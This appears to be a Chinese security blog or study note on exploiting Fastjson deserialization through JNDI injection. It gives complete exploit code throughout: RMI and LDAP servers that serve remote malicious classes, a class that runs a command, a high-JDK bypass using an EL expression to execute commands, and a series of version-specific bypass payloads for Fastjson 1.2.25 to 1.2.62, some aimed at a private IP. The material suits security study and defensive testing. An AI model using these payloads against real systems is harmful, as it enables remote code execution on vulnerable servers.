

JNDI 查找 从 RMI/LDAP 服务器获取 DataSource

这里很明显就是JNDI注入点

```
InitialContext var1 = new InitialContext();
DataSource var2 = (DataSource)var1.lookup(this.getDataSourceName());
```

完整调用链

```
JSON.parse(payload)
    ↓
Fastjson 反序列化 JdbcRowSetImpl
    ↓
调用 setDataSourceName("rmi://localhost:1099/remoteObj")  // 设置恶意地址
    ↓
调用 setAutoCommit(true)  // autoCommit: true
    ↓
conn 为 null，调用 connect()
    ↓
InitialContext.lookup("rmi://localhost:1099/remoteObj")
    ↓
JNDI 从 RMI 服务器获取 Reference 对象
    ↓
远程加载 http://localhost:7777/JndiCalc.class
    ↓
实例化恶意类 → RCE
```

---

#### EXP

EXP如下

```
{
	"@type":"com.sun.rowset.JdbcRowSetImpl",
	"dataSourceName":"rmi://localhost:1099/Exploit", "autoCommit":true
}
```

这里设置autoCommit的原因是因为攻击的入口就是 `setAutoCommit` 方法，只有调用它，才会触发 `connect()`最终实现JNDI引用攻击

根据 JNDI 注入的漏洞利用，需要先起一个 Server，然后把恶意的类放到上面

**JNDIRmiServer.java**

```
package org.mixbp;

import javax.naming.InitialContext;  
import javax.naming.Reference;  
import java.rmi.registry.LocateRegistry;  
import java.rmi.registry.Registry;  
  
public class JNDIRMIServer {  
    public static void main(String[] args) throws Exception{  
        InitialContext initialContext = new InitialContext();  
 Registry registry = LocateRegistry.createRegistry(1099);  
 // RMI  
 //initialContext.rebind("rmi://localhost:1099/remoteObj", new RemoteObjImpl()); // JNDI 注入漏洞  
 Reference reference = new Reference("JndiCalc","JndiCalc","http://localhost:7777/");  
 initialContext.rebind("rmi://localhost:1099/remoteObj", reference);  
 }  
}
```

**恶意类**

`Calc.java`

```
public class Calc{
    public Calc() throws Exception {
        Runtime.getRuntime().exec("calc");
    }
}
```

**注意：这里不能有完整包名。** 

去掉完整包名再javac编译

把恶意类的class字节码文件放在目录下，然后开启web服务 7777端口

```
python -m http.server 7777
```

**攻击的 EXP 如下**

`JdbcRowSetImplExp`

```
import com.alibaba.fastjson.JSON;  
  
// 基于 JdbcRowSetImpl 的利用链  
public class JdbcRowSetImplExp {  
    public static void main(String[] args) {  
        String payload = "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"rmi://localhost:1099/remoteObj\", \"autoCommit\":true}";  
 JSON.parse(payload);  
 }  
}
```



成功弹出计算器

---

### JNDI + LDAP

也是和之前学的原理一样。这里直接给出Server和EXP

**JNDILdapServer.java**

```
package org.mixbp;

import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPException;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;
import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import java.net.InetAddress;
import java.net.MalformedURLException;
import java.net.URL;


// jndi 绕过 jdk8u191 之前的攻击  
public class JNDILdapServer {
    private static final String LDAP_BASE = "dc=example,dc=com";
    public static void main (String[] args) {
        String url = "http://127.0.0.1:7777/#Calc";
        int port = 1099;
        try {
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
            config.setListenerConfigs(new InMemoryListenerConfig(
                    "listen",
                    InetAddress.getByName("0.0.0.0"),
                    port,
                    ServerSocketFactory.getDefault(),
                    SocketFactory.getDefault(),
                    (SSLSocketFactory) SSLSocketFactory.getDefault()));

            config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(url)));
            InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
            System.out.println("Listening on 0.0.0.0:" + port);
            ds.startListening();
        }
        catch ( Exception e ) {
            e.printStackTrace();
        }
    }
    private static class OperationInterceptor extends InMemoryOperationInterceptor {
        private URL codebase;
        /**
         * */ public OperationInterceptor ( URL cb ) {
            this.codebase = cb;
        }
        /**
         * {@inheritDoc}
         * * @see com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor#processSearchResult(com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult)  
         */ @Override
        public void processSearchResult ( InMemoryInterceptedSearchResult result ) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try {
                sendResult(result, base, e);
            }
            catch ( Exception e1 ) {
                e1.printStackTrace();
            }
        }
        protected void sendResult ( InMemoryInterceptedSearchResult result, String base, Entry e ) throws LDAPException, MalformedURLException {
            URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
            System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
            e.addAttribute("javaClassName", "Exploit");
            String cbstring = this.codebase.toString();
            int refPos = cbstring.indexOf('#');
            if ( refPos > 0 ) {
                cbstring = cbstring.substring(0, refPos);
            }
            e.addAttribute("javaCodeBase", cbstring);
            e.addAttribute("objectClass", "javaNamingReference");
            e.addAttribute("javaFactory", this.codebase.getRef());
            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }

    }
}
```

EXP

**JdbcRowSetImplLdapExp**

```
package org.mixbp;

import com.alibaba.fastjson.JSON;  
  
public class JdbcRowSetImplLdapExp {  
    public static void main(String[] args) {  
        String payload = "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"ldap://localhost:1099/Exploit\", \"autoCommit\":true}";  
 JSON.parse(payload);  
 }  
}
```

也是先开启web服务把恶意类的字节码放到目录中，然后开启server再运行Exp即可



成功弹出计算器。

---

## Fastjson 攻击 jdk 高版本的绕过

这里是针对基于 JdbcRowSetImpl 的利用链的 jdk 高版本绕过

还是和学JNDI的时候一样的绕过手段，直接放Exp

这里需要引入这些依赖

```
 		<dependency>
            <groupId>com.unboundid</groupId>
            <artifactId>unboundid-ldapsdk</artifactId>
            <version>4.0.9</version>
        </dependency>

        <dependency>
            <groupId>commons-io</groupId>
            <artifactId>commons-io</artifactId>
            <version>2.5</version>
        </dependency>

        <dependency>
            <groupId>com.alibaba</groupId>
            <artifactId>fastjson</artifactId>
            <version>1.2.24</version>
        </dependency>

        <dependency>
            <groupId>commons-codec</groupId>
            <artifactId>commons-codec</artifactId>
            <version>1.12</version>
        </dependency>

        <dependency>
            <groupId>commons-collections</groupId>
            <artifactId>commons-collections</artifactId>
            <version>3.2.1</version>
        </dependency>

        <dependency>
            <groupId>junit</groupId>
            <artifactId>junit</artifactId>
            <version>4.11</version>
        </dependency>

        <dependency>
            <groupId>org.hamcrest</groupId>
            <artifactId>hamcrest-core</artifactId>
            <version>1.3</version>
        </dependency>

        <dependency>
            <groupId>org.apache.tomcat.embed</groupId>
            <artifactId>tomcat-embed-core</artifactId>
            <version>8.5.71</version>
        </dependency>

        <dependency>
            <groupId>org.apache.tomcat</groupId>
            <artifactId>tomcat-annotations-api</artifactId>
            <version>8.5.71</version>
        </dependency>

        <dependency>
            <groupId>org.glassfish</groupId>
            <artifactId>javax.el</artifactId>
            <version>3.0.1-b08</version>
        </dependency>
```

---

然后我这里还是用的RMI攻击

**JNDIBypassHighJavaServerEL.java**

```
package org.mixbp;

import com.sun.jndi.rmi.registry.ReferenceWrapper;
import org.apache.naming.ResourceRef;

import javax.naming.StringRefAddr;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

// JNDI 高版本 jdk 绕过服务端，用 bind 的方式
public class JNDIBypassHighJavaServerEL {
    public static void main(String[] args) throws Exception {
        System.out.println("[*]Evil RMI Server is Listening on port: 1099");
        Registry registry = LocateRegistry.createRegistry(1099);

        // 实例化Reference，指定目标类为javax.el.ELProcessor，工厂类为org.apache.naming.factory.BeanFactory
        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "",
                true,"org.apache.naming.factory.BeanFactory",null);

        // 强制将'x'属性的setter从'setX'变为'eval', 详细逻辑见BeanFactory.getObjectInstance代码
        ref.add(new StringRefAddr("forceString", "x=eval"));

        // 利用表达式执行命令
        ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\")" +
                ".newInstance().getEngineByName(\"JavaScript\")" +
                ".eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['calc']).start()\")"));
        System.out.println("[*]Evil command: calc");
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);
        registry.bind("remoteObj", referenceWrapper);
    }
}
```

EXP

```
package org.mixbp;

import com.alibaba.fastjson.JSON;

public class HighJdkBypass {
    public static void main(String[] args) {
        String payload ="{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"rmi://127.0.0.1:1099/remoteObj\",\"autoCommit\":\"true\" }";
        JSON.parse(payload);
    }
}
```

这里不需要恶意类，因为是用表达式执行命令



成功弹出计算器

---

# Fastjson各版本绕过

## 分析fastjson1.2.25的修复代码


## 寻找可用利用链

通过对黑名单的研究，我们可以找到具体版本有哪些利用链可以利用。

从1.2.42版本开始，Fastjson把原本明文形式的黑名单改成了哈希过的黑名单，目的就是为了防止安全研究者对其进行研究，提高漏洞利用门槛，但是有人已在Github上跑出了大部分黑名单包类：https://github.com/LeadroyaL/fastjson-blacklist

目前已知的哈希黑名单的对应表如下：

| version | hash                 | hex-hash            | name                                                         |
| ------- | -------------------- | ------------------- | ------------------------------------------------------------ |
| 1.2.42  | -8720046426850100497 | 0x86fc2bf9beaf7aefL | org.apache.commons.collections4.comparators                  |
| 1.2.42  | -8109300701639721088 | 0x8f75f9fa0df03f80L | org.python.core                                              |
| 1.2.42  | -7966123100503199569 | 0x9172a53f157930afL | org.apache.tomcat                                            |
| 1.2.42  | -7766605818834748097 | 0x9437792831df7d3fL | org.apache.xalan                                             |
| 1.2.42  | -6835437086156813536 | 0xa123a62f93178b20L | javax.xml                                                    |
| 1.2.42  | -4837536971810737970 | 0xbcdd9dc12766f0ceL | org.springframework.                                         |
| 1.2.42  | -4082057040235125754 | 0xc7599ebfe3e72406L | org.apache.commons.beanutils                                 |
| 1.2.42  | -2364987994247679115 | 0xdf2ddff310cdb375L | org.apache.commons.collections.Transformer                   |
| 1.2.42  | -1872417015366588117 | 0xe603d6a51fad692bL | org.codehaus.groovy.runtime                                  |
| 1.2.42  | -254670111376247151  | 0xfc773ae20c827691L | java.lang.Thread                                             |
| 1.2.42  | -190281065685395680  | 0xfd5bfc610056d720L | javax.net.                                                   |
| 1.2.42  | 313864100207897507   | 0x45b11bc78a3aba3L  | com.mchange                                                  |
| 1.2.42  | 1203232727967308606  | 0x10b2bdca849d9b3eL | org.apache.wicket.util                                       |
| 1.2.42  | 1502845958873959152  | 0x14db2e6fead04af0L | java.util.jar.                                               |
| 1.2.42  | 3547627781654598988  | 0x313bb4abd8d4554cL | org.mozilla.javascript                                       |
| 1.2.42  | 3730752432285826863  | 0x33c64b921f523f2fL | java.rmi                                                     |
| 1.2.42  | 3794316665763266033  | 0x34a81ee78429fdf1L | java.util.prefs.                                             |
| 1.2.42  | 4147696707147271408  | 0x398f942e01920cf0L | com.sun.                                                     |
| 1.2.42  | 5347909877633654828  | 0x4a3797b30328202cL | java.util.logging.                                           |
| 1.2.42  | 5450448828334921485  | 0x4ba3e254e758d70dL | org.apache.bcel                                              |
| 1.2.42  | 5751393439502795295  | 0x4fd10ddc6d13821fL | java.net.Socket                                              |
| 1.2.42  | 5944107969236155580  | 0x527db6b46ce3bcbcL | org.apache.commons.fileupload                                |
| 1.2.42  | 6742705432718011780  | 0x5d92e6ddde40ed84L | org.jboss                                                    |
| 1.2.42  | 7179336928365889465  | 0x63a220e60a17c7b9L | org.hibernate                                                |
| 1.2.42  | 7442624256860549330  | 0x6749835432e0f0d2L | org.apache.commons.collections.functors                      |
| 1.2.42  | 8838294710098435315  | 0x7aa7ee3627a19cf3L | org.apache.myfaces.context.servlet                           |
| 1.2.43  | -2262244760619952081 | 0xe09ae4604842582fL | java.net.URL                                                 |
| 1.2.46  | -8165637398350707645 | 0x8eadd40cb2a94443L | junit.                                                       |
| 1.2.46  | -8083514888460375884 | 0x8fd1960988bce8b4L | org.apache.ibatis.datasource                                 |
| 1.2.46  | -7921218830998286408 | 0x92122d710e364fb8L | org.osjava.sj.                                               |
| 1.2.46  | -7768608037458185275 | 0x94305c26580f73c5L | org.apache.log4j.                                            |
| 1.2.46  | -6179589609550493385 | 0xaa3daffdb10c4937L | org.logicalcobwebs.                                          |
| 1.2.46  | -5194641081268104286 | 0xb7e8ed757f5d13a2L | org.apache.logging.                                          |
| 1.2.46  | -3935185854875733362 | 0xc963695082fd728eL | org.apache.commons.dbcp                                      |
| 1.2.46  | -2753427844400776271 | 0xd9c9dbf6bbd27bb1L | com.ibatis.sqlmap.engine.datasource                          |
| 1.2.46  | -1589194880214235129 | 0xe9f20bad25f60807L | org.jdom.                                                    |
| 1.2.46  | 1073634739308289776  | 0xee6511b66fd5ef0L  | org.slf4j.                                                   |
| 1.2.46  | 5688200883751798389  | 0x4ef08c90ff16c675L | javassist.                                                   |
| 1.2.46  | 7017492163108594270  | 0x616323f12c2ce25eL | oracle.net                                                   |
| 1.2.46  | 8389032537095247355  | 0x746bd4a53ec195fbL | org.jaxen.                                                   |
| 1.2.48  | 1459860845934817624  | 0x144277b467723158L | java.net.InetAddress                                         |
| 1.2.48  | 8409640769019589119  | 0x74b50bb9260e31ffL | java.lang.Class                                              |
| 1.2.49  | 4904007817188630457  | 0x440e89208f445fb9L | com.alibaba.fastjson.annotation                              |
| 1.2.59  | 5100336081510080343  | 0x46c808a4b5841f57L | org.apache.cxf.jaxrs.provider.                               |
| 1.2.59  | 6456855723474196908  | 0x599b5c1213a099acL | ch.qos.logback.                                              |
| 1.2.59  | 8537233257283452655  | 0x767a586a5107feefL | net.sf.ehcache.transaction.manager.                          |
| 1.2.60  | 3688179072722109200  | 0x332f0b5369a18310L | com.zaxxer.hikari.                                           |
| 1.2.61  | -4401390804044377335 | 0xc2eb1e621f439309L | flex.messaging.util.concurrent.AsynchBeansWorkManagerExecutor |
| 1.2.61  | -1650485814983027158 | 0xe9184be55b1d962aL | org.apache.openjpa.ee.                                       |
| 1.2.61  | -1251419154176620831 | 0xeea210e8da2ec6e1L | oracle.jdbc.rowset.OracleJDBCRowSet                          |
| 1.2.61  | -9822483067882491    | 0xffdd1a80f1ed3405L | com.mysql.cj.jdbc.admin.                                     |
| 1.2.61  | 99147092142056280    | 0x1603dc147a3e358L  | oracle.jdbc.connector.OracleManagedConnectionFactory         |
| 1.2.61  | 3114862868117605599  | 0x2b3a37467a344cdfL | org.apache.ibatis.parsing.                                   |
| 1.2.61  | 4814658433570175913  | 0x42d11a560fc9fba9L | org.apache.axis2.jaxws.spi.handler.                          |
| 1.2.61  | 6511035576063254270  | 0x5a5bd85c072e5efeL | jodd.db.connection.                                          |
| 1.2.61  | 8925522461579647174  | 0x7bddd363ad3998c6L | org.apache.commons.configuration.JNDIConfiguration           |
| 1.2.62  | -9164606388214699518 | 0x80d0c70bcc2fea02L | org.apache.ibatis.executor.                                  |
| 1.2.62  | -8649961213709896794 | 0x87f52a1b07ea33a6L | net.sf.cglib.                                                |
| 1.2.62  | -5764804792063216819 | 0xafff4c95b99a334dL | com.mysql.cj.jdbc.MysqlDataSource                            |
| 1.2.62  | -4438775680185074100 | 0xc2664d0958ecfe4cL | aj.org.objectweb.asm.                                        |
| 1.2.62  | -3319207949486691020 | 0xd1efcdf4b3316d34L | oracle.jdbc.                                                 |
| 1.2.62  | -2192804397019347313 | 0xe1919804d5bf468fL | org.apache.commons.collections.comparators.                  |
| 1.2.62  | -2095516571388852610 | 0xe2eb3ac7e56c467eL | net.sf.ehcache.hibernate.                                    |
| 1.2.62  | 4750336058574309     | 0x10e067cd55c5e5L   | com.mysql.cj.log.                                            |
| 1.2.62  | 218512992947536312   | 0x3085068cb7201b8L  | org.h2.jdbcx.                                                |
| 1.2.62  | 823641066473609950   | 0xb6e292fa5955adeL  | org.apache.commons.logging.                                  |
| 1.2.62  | 1534439610567445754  | 0x154b6cb22d294cfaL | org.apache.ibatis.reflection.                                |
| 1.2.62  | 1818089308493370394  | 0x193b2697eaaed41aL | org.h2.server.                                               |
| 1.2.62  | 2164696723069287854  | 0x1e0a8c3358ff3daeL | org.apache.ibatis.datasource.                                |
| 1.2.62  | 2653453629929770569  | 0x24d2f6048fef4e49L | org.objectweb.asm.                                           |
| 1.2.62  | 2836431254737891113  | 0x275d0732b877af29L | flex.messaging.util.concurrent.                              |
| 1.2.62  | 3089451460101527857  | 0x2adfefbbfe29d931L | org.apache.ibatis.javassist.                                 |
| 1.2.62  | 3718352661124136681  | 0x339a3e0b6beebee9L | org.apache.ibatis.ognl.                                      |
| 1.2.62  | 4046190361520671643  | 0x3826f4b2380c8b9bL | com.mysql.cj.jdbc.MysqlConnectionPoolDataSource              |
| 1.2.62  | 6280357960959217660  | 0x5728504a6d454ffcL | org.apache.ibatis.scripting.                                 |
| 1.2.62  | 6734240326434096246  | 0x5d74d3e5b9370476L | com.mysql.cj.jdbc.MysqlXADataSource                          |
| 1.2.62  | 7123326897294507060  | 0x62db241274397c34L | org.apache.commons.collections.functors.                     |
| 1.2.62  | 8488266005336625107  | 0x75cc60f5871d0fd3L | org.apache.commons.configuration                             |

目前未知的哈希黑名单：

| version | hash                 | hex-hash            | name |
| ------- | -------------------- | ------------------- | ---- |
| 1.2.42  | 33238344207745342    | 0x761619136cc13eL   |      |
| 1.2.62  | -6316154655839304624 | 0xa85882ce1044c450L |      |
| 1.2.62  | -5472097725414717105 | 0xb40f341c746ec94fL |      |
| 1.2.62  | -4608341446948126581 | 0xc00be1debaf2808bL |      |
| 1.2.62  | 3256258368248066264  | 0x2d308dbbc851b0d8L |      |
| 1.2.62  | 4841947709850912914  | 0x43320dc9d2ae0892L |      |
| 1.2.62  | 6534946468240507089  | 0x5ab0cb3071ab40d1L |      |

---

## 1.2.25 - 1.2.41 补丁绕过

sun 包里面的这个 `JdbcRowSetImpl` 类被 ban 了，尝试在 `com.sun.rowset.JdbcRowSetImpl` 前面加一个 L，结尾加上 `;` 绕过

- 然后开启 `AutoTypeSupport`

EXP 如下

```
import com.alibaba.fastjson.JSON;  
import com.alibaba.fastjson.parser.ParserConfig;  
  
public class SuccessBypassEXP {  
    public static void main(String[] args) {  
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);  
 String payload ="{\"@type\":\"Lcom.sun.rowset.JdbcRowSetImpl;\",\"dataSourceName\":\"ldap://127.0.0.1:1234/ExportObject\",\"autoCommit\":\"true\" }";  
 JSON.parse(payload);  
 }  
}
```

---

## 1.2.25-1.2.42 补丁绕过

EXP

```
{
	"@type":"LLcom.sun.rowset.JdbcRowSetImpl;;",
	"dataSourceName":"ldap://localhost:1389/Exploit", 
	"autoCommit":true
}
```

---

## 1.2.25-1.2.43 补丁绕过

EXP

```
{
	"@type":"[com.sun.rowset.JdbcRowSetImpl"[{,
	"dataSourceName":"ldap://localhost:1389/Exploit",
	"autoCommit":true
}
```

---

## 1.2.25-1.2.45补丁绕过

**前提条件：需要目标服务端存在mybatis的jar包，且版本需为3.x.x系列<3.5.0的版本。**

直接给出payload，要连LDAP或RMI都可以：

```
{
	"@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory",
	"properties":
	{
		"data_source":"ldap://localhost:1389/Exploit"
	}
}
```

关键PoC：`org.apache.ibatis.datasource.jndi.JndiDataSourceFactory`

EXP 如下

```
import com.alibaba.fastjson.JSON;  
import com.alibaba.fastjson.parser.ParserConfig;  
  
// Fastjson 1.2.41 版本的绕过  
public class SuccessBypassEXP_45 {  
    public static void main(String[] args) {  
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);  
 String payload ="{\"@type\":\"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory\"," +  
                "\"properties\":{\"data_source\":\"ldap://localhost:1234/Exploit\"}}";  
 JSON.parse(payload);  
 }  
}
```

---

## 1.2.25-1.2.47补丁绕过 无需开启AutoTypeSupport

本次Fastjson反序列化漏洞也是基于`checkAutoType()`函数绕过的，并且**无需开启AutoTypeSupport**，大大提高了成功利用的概率。

- 1.2.25-1.2.32版本：未开启AutoTypeSupport时能成功利用，开启AutoTypeSupport反而不能成功触发；
- 1.2.33-1.2.47版本：无论是否开启AutoTypeSupport，都能成功利用；

绕过的大体思路是通过 java.lang.Class，将JdbcRowSetImpl类加载到Map中缓存，从而绕过AutoType的检测。因此将payload分两次发送，第一次加载，第二次执行。默认情况下，只要遇到没有加载到缓存的类，`checkAutoType()`就会抛出异常终止程序。

Demo如下，无需开启AutoTypeSupport，本地Fastjson用的是1.2.47版本：

EXP 如下

```
import com.alibaba.fastjson.JSON;
 
public class JdbcRowSetImplPoc {
    public static void main(String[] argv){
        String payload  = "{\"a\":{\"@type\":\"java.lang.Class\",\"val\":\"com.sun.rowset.JdbcRowSetImpl\"},"
                + "\"b\":{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\","
                + "\"dataSourceName\":\"ldap://localhost:1389/Exploit\",\"autoCommit\":true}}";
        JSON.parse(payload);
    }
}
```

---

## Fastjson <= 1.2.61 通杀

### Fastjson1.2.5 <= 1.2.59

**需要开启AutoType**

```
{"@type":"com.zaxxer.hikari.HikariConfig","metricRegistry":"ldap://localhost:1389/Exploit"}
{"@type":"com.zaxxer.hikari.HikariConfig","healthCheckRegistry":"ldap://localhost:1389/Exploit"}
```

### Fastjson1.2.5 <= 1.2.60

**需要开启 autoType：**

```
{"@type":"oracle.jdbc.connector.OracleManagedConnectionFactory","xaDataSourceName":"rmi://10.10.20.166:1099/ExportObject"}

{"@type":"org.apache.commons.configuration.JNDIConfiguration","prefix":"ldap://10.10.20.166:1389/ExportObject"}
```

### Fastjson1.2.5 <= 1.2.61

```
{"@type":"org.apache.commons.proxy.provider.remoting.SessionBeanProvider","jndiName":"ldap://localhost:1389/ExportObject"}
```

---

# Fastjson1.2.62-1.2.68版本反序列化漏洞

## 1.2.62 反序列化漏洞

### 前提条件

- 需要开启AutoType；
- Fastjson <= 1.2.62；
- JNDI注入利用所受的JDK版本限制；
- 目标服务端需要存在xbean-reflect包；xbean-reflect 包的版本不限，我这里把 pom.xml 贴出来。

**pom.xml**

```
<dependencies>

<dependency>  
 <groupId>com.alibaba</groupId>  
 <artifactId>fastjson</artifactId>  
 <version>1.2.62</version>  
</dependency>  
<dependency>  
 <groupId>org.apache.xbean</groupId>  
 <artifactId>xbean-reflect</artifactId>  
 <version>4.18</version>  
</dependency>  
<dependency>  
 <groupId>commons-collections</groupId>  
 <artifactId>commons-collections</artifactId>  
 <version>3.2.1</version>  
</dependency>
</dependencies>
```

 payload 可以设置成这样

```
"{

\"@type\":\"org.apache.xbean.propertyeditor.JndiConverter\", 
\"AsText\":\"ldap://127.0.0.1:1234/ExportObject\"

}"
```

### EXP 如下

```
import com.alibaba.fastjson.JSON;  
import com.alibaba.fastjson.parser.ParserConfig;  
import org.apache.xbean.propertyeditor.JndiConverter;  
  
public class EXP_1262 {  
    public static void main(String[] args) {  
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);  
 String poc = "{\"@type\":\"org.apache.xbean.propertyeditor.JndiConverter\"," +  
                "\"AsText\":\"ldap://127.0.0.1:1234/ExportObject\"}";  
 JSON.parse(poc);  
 }  
}
```

## 1.2.66 反序列化漏洞

### 前提条件

- 开启AutoType；
- Fastjson <= 1.2.66；
- JNDI注入利用所受的JDK版本限制；
- org.apache.shiro.jndi.JndiObjectFactory类需要shiro-core包；
- br.com.anteros.dbcp.AnterosDBCPConfig 类需要 Anteros-Core和 Anteros-DBCP 包；
